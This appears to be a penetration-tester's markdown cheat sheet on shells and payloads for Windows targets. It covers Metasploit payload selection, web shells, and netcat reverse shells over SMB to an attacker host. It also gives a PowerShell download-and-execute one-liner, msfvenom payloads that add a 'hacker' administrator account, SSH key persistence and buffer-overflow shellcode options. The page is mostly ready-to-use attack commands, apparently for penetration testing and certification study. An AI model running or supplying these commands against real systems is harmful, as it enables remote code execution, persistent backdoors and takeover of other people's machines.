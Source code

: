 # Windows
<<<<<<< HEAD
*   Shells & Payloads
    *   Metasploit 
        *   `msfconsole` → `search [COMPONENT]` → `use [EXPLOIT]` → `options`
        *   `set payload windows/[EMPTY/X64]/shell/[BIND/REVERSE]_tcp` → Also `/meterpreter/` instead of `/shell/`
        *   `set payload windows/[EMPTY/X64]/shell_[BIND/REVERSE]_tcp`
    *   Web Shells
        *   `ls -la /usr/share/webshells` + [Public Repository](https://github.com/nicholasaleks/webshells)
        *   ASP / ASPX / PHP / PL / RB / CFM / JSP / [WAR (Tomcat Manager Endpoints)](https://0xdf.gitlab.io/2020/11/07/htb-tabby.html)
    *   SMB / WebDAV Execution
        *   `smbserv()`                                                                                  → Open Anonymous Server
        *   `cp /usr/share/windows-binaries/nc[32/64].exe .`      → Place NC in SMB Share
        *   `\\[KALI_IP]\nc64.exe -e cmd.exe [KALI_IP] [PORT]`  → Input NC Shell Payload
        *   WebDAV                                                                                    → `webdavserv()` → Server At: `\\[KALI_IP]:8000\DavWWWRoot\`  
    *   Powershell
        *   `powershell -e [B64_STRING]`                                                           → [B64 Reverse Shell](https://www.revshells.com/)
        *   `echo '[CMD]' | iconv -f ascii -t utf-16le | base64 -w0`  → CMD to PS-B64 Conversion
        *   Script / Shell Execution
            *   [Invoke-PowershellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
            *   `httpserv()`
            *   `powershell -c iex(New-Object System.Net.WebClient).DownloadString('http://[KALI_IP]:8888/[SCRIPT]');[FUNCTION]`
        *   32/64-Bit Paths
            *   Try Both → `where powershell` / `set` → Infer Architecture
            *   `c:\windows\syswow64\windowspowershell\v1.0\powershell.exe`
            *   `c:\windows\sysnative\windowspowershell\v1.0\powershell.exe`
    *   Netcat Upload
        *   Transfer → `/usr/share/windows-binaries/nc[32/64].exe` 
        *   `nc.exe -e cmd.exe [KALI_IP] [PORT]`
    *   SSH Hijacking
        *   `ssh-keygen -t ed25519 -f [KEY_FILE]` → Paste in `C:\Users\[USERNAME]\.ssh\authorized_keys`
        *   `chmod 600 [KEY_FILE]`
        *   `ssh -i [KEY_FILE] [USER]@[IP]`
        *   After Compromising Administrator → Perform to create a SSH Access
    *   MSFVenom
        *   Executable Upload
            *   `metash()`
            *   IIS                    → ASP / ASPX
            *   CMD               → EXE / DLL / MSI / PS1
            *   PHP                → `-p php/meterpreter/reverse_tcp -f raw`
            *   WAR               → `-p java/shell_reverse_tcp -f war`
            *   JSP                  → `-p java/shell_reverse_tcp -f raw`
        *   Admin Hijacking
            *   `msfvenom -p windows/[x64/empty]/exec CMD="net user hacker pass123 /add" -f [FORMAT]`
            *   `msfvenom -p windows/[x64/empty]/exec CMD="net localgroup Administrators hacker /add" -f [FORMAT]`
            *   `msfvenom -p windows/[x64/empty]/exec CMD="net group [DOMAIN_GROUP] hacker /add" -f [FORMAT]`
            *   Remote Access → Add `hacker` to RDP / WinRM Groups
        *   BOF Shellcode
            *   `msfvenom -a [x86/x64] -p [SHELL_TYPE] -f [python/c] -b [BAD_CHARS] [-e [32_BIT_ENCODER] -i 3] --smallest`
            *   Encoders                → `x86/shikata_ga_nai` / `x86/unicode_m`
            *   Extra Options        → `BufferRegister=EAX` / `Exitfunc=thread`
            *   Default Badchars → `\x00\x0a\x0d`
            *   Auto-Migration